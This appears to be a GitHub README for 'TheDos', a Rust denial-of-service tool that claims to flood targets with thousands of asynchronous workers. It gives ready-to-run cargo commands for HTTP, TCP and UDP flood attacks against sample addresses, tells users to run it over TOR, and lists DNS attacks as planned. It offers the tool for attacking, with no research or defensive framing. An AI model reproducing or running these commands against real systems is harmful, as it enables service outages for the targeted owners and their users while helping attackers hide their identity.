 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## ☠ TheDos

Attack networks asynchronously by getting help of workers! 


## 🚬 Usage

> Run it over TOR

* start http attack with 4096 workers: ```cargo run -- --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```cargo run -- --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```cargo run -- --udp-addr 93.184.216.34:24535 --workers 4096```

### 🏗️ WIP

* udp attack

* dns attack